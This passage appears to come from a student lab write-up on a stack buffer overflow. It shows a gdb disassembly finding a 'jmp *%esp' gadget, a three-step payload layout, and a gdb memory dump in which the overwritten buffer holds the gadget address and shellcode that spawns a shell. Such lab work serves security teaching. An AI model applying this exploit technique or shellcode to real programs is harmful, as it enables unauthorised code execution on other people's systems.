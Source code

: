 ```
   0x08049223 <+62>:    ret
End of assembler dump.
(gdb) x/i 0x080491fd
   0x80491fd <magic+24>:        jmp    *%esp
```

## Exploit Structure
#### (A description of your exploit structure)
This exploit has three parts:
1. Write 20 bytes of dummy characters to overwrite the ```buf```, compiler padding and sfp of ```orbit```.
2. Overwrite the rip of ```orbit``` with the address of ```jmp    *%esp```. This will direct the program to the esp which moves to address right after the rip of ```orbit```. 
3. Insert the shellcode right after the rip of ```orbit```.
This causes the shellcode to run after it returns from the ```orbit``` function.

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/16x buf
0xffa308c8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffa308d8:     0x41414141      0x080491fd      0xcd58326a      0x89c38980
0xffa308e8:     0x58476ac1      0xc03180cd      0x2f2f6850      0x2f686873
0xffa308f8:     0x546e6962      0x8953505b      0xb0d231e1      0x0080cd0b
```
After 20 bytes of garbage is the address of ```jmp    *%esp``` instruction which directs the program to esp where our shellcode is inserted. 
